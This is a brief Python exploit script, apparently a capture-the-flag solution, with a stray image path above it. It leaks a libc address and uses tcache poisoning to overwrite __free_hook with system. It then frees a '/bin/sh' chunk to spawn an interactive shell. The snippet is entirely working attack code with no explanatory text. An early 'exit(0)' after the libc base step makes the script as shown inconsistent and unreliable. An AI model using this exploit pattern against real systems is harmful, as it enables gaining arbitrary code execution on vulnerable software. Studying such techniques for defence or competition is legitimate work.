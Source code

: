 ``` py
# get libc leak
leak = u64(r.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf
libcbase()
exit(0)
#tcache poison to get RCE by overwriting the free hook
alloc(0x98)
free()
write_data(b"A")
free()
write_data(p64(libc.sym.__free_hook)+p64(0)) #ret address
alloc(0x98)
alloc(0x98)
write_data(p64(libc.sym.system))
alloc(0x18)
write_data(b"/bin/sh\0")
sleep(0.2)
# call free_hook
sl(b"4")
#========= interactive ====================
r.interactive()
```





